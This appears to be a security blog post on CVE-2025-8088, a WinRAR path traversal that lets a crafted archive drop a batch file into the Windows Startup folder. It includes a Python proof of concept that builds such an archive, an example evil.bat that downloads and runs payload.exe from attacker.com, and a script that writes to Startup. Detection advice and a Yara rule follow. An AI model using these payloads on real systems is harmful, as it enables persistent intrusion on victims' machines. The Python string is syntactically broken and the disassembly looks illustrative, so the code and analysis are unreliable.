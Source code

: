 ```yaml
---
title: "CVE-2025-8088: WinRAR Directory Traversal RCE"
layout: post
tags: [WinRAR, CVE-2025-8088, directory traversal, exploit, malware, reverse engineering, cybersecurity, red-team, pentest, nullsecurityx]
image: /assets/images/cve-2025-8088-winrarrce.jpg
---
```


# CVE-2025-8088: WinRAR Directory Traversal → Remote Code Execution

CVE-2025-8088 is a **critical vulnerability** in WinRAR's archive extraction mechanism. 
This flaw allows attackers to use specially crafted `.rar` archives to **extract files into arbitrary directories** on the victim's system, potentially leading to **Remote Code Execution (RCE)**.

---

## 1️⃣ Technical Mechanism

WinRAR's `ExtractFile()` function does not properly sanitize file paths containing **path traversal sequences (`../`)**. 
An attacker can place a malicious file into `../../../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat`.

When the user extracts the archive, the malicious file is written to the **Windows Startup folder**, executing automatically on reboot.

### Core Issue:
`ExtractFile()` attempts to normalize paths but **fails to prevent directory traversal**.

---

## 2️⃣ Malicious Archive Structure

```text
evil.rar
 ├── readme.txt
 └── ../../../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat
```
- `readme.txt` → benign appearance
- `evil.bat` → malicious payload executed at startup

---

## 3️⃣ Proof of Concept (PoC)

### Python Example (ZIP for demonstration)
```python
from zipfile import ZipFile
import os

payload = '@echo off
echo Malicious code executed!
pause
'

os.makedirs("build", exist_ok=True)
with open("build/evil.bat", "w") as f:
    f.write(payload)

with ZipFile("evil.zip", "w") as archive:
    archive.write("build/evil.bat",
        "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat")
```
> Note: ZIP is used for demonstration. Real attackers use RAR CLI or specialized libraries.

---

## 4️⃣ Exploit Scenario

1. Attacker sends malicious archive via email or social engineering.
2. Victim extracts the archive → `evil.bat` lands in Startup folder.
3. On next reboot, `evil.bat` executes.
4. Example `evil.bat` content:
```bat
@echo off
powershell -c "Invoke-WebRequest -Uri http://attacker.com/payload.exe -OutFile %TEMP%\p.exe; Start-Process %TEMP%\p.exe"
```

---

## 5️⃣ Red-Team Automation Script
```javascript
import fs from 'fs';

const traversalPath = "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat";
fs.writeFileSync(traversalPath, "echo Exploit successful!");
console.log("[+] Payload written to startup folder");
```
> Lab use only.

---

## 6️⃣ Detection & Blue Team Perspective

**Detection:**
- EDR/AV: Unexpected files in Startup folder.
- SIEM: `WinRAR.exe` creating files in sensitive directories.
- Yara: Detect `../` sequences in archive paths.

**Mitigation:**
- Update to WinRAR 7.13 or higher.
- Monitor Startup folder for unexpected files.
- Educate users on not opening untrusted archives.
- Apply mail gateway checks for suspicious `.rar`/`.zip` files.

---

## 7️⃣ Hacker Perspective

- **Entry Point:** Malicious `.rar` archive
- **Technique:** Directory Traversal → Startup persistence
- **Outcome:** Remote Code Execution
- **Red-Team Benefit:** Persistent access, malware delivery
- **Blue-Team Priority:** Patching + Startup monitoring

---

## 8️⃣ Reverse Engineering – Path Traversal Analysis

Vulnerability resides in WinRAR's `Unpack.cpp` → `ExtractFile()` function. Path normalization (`NormalizePath()`) fails to prevent `..` sequences.

### IDA Disassembly Snippet
```asm
.text:00419A10 push    ebp
.text:00419A11 mov     ebp, esp
.text:00419A13 push    esi
.text:00419A14 push    edi
.text:00419A15 mov     esi, [ebp+src]
.text:00419A18 mov     edi, [ebp+dst]
loop_next_char:
.text:00419A1B lodsb
.text:00419A1C test    al, al
.text:00419A1E jz      done
.text:00419A20 cmp     al, 2Eh
.text:00419A22 jnz     store_char
.text:00419A24 cmp     byte ptr [esi], 2Eh
.text:00419A27 jnz     store_char
.text:00419A29 add     esi, 1
.text:00419A2C jmp     loop_next_char
store_char:
.text:00419A2E stosb
.text:00419A2F jmp     loop_next_char
done:
.text:00419A31 mov     al, 0
.text:00419A33 stosb
.text:00419A34 pop     edi
.text:00419A35 pop     esi
.text:00419A36 pop     ebp
.text:00419A37 retn
```

**Analysis:**
- `..` sequences are partially checked but not prevented.
- Result: `CreateFile()` writes file to Startup folder.

### Debug Example
```
esi = "....\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil.bat"
edi = buffer (dst)
NormalizePath output: "..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil.bat"
```
- Traversal not blocked → exploit succeeds.

---

## 9️⃣ Combined PoC + RE Conclusion

- **Code Level:** Traversal not sanitized
- **Outcome:** File placed in Startup folder
- **Exploit Chain:** Malicious archive → NormalizePath → CreateFile → Startup persistence

---

## 🔟 Blue Team IOC & Yara Example

**IOC:**
- Archive containing `..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- `WinRAR.exe` → `CreateFileW()` call to Startup folder

**Yara Rule:**
```yara
rule WinRAR_DirectoryTraversal {
    meta:
        description = "Detects WinRAR archives with directory traversal payloads"
        author = "BlueTeam"
        cve = "CVE-2025-8088"
    strings:
        $traversal = "..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
    condition:
        $traversal
}
```
NullSecurityX
**DEMO:**
![Demo GIF](assets/images/demo.gif)


---


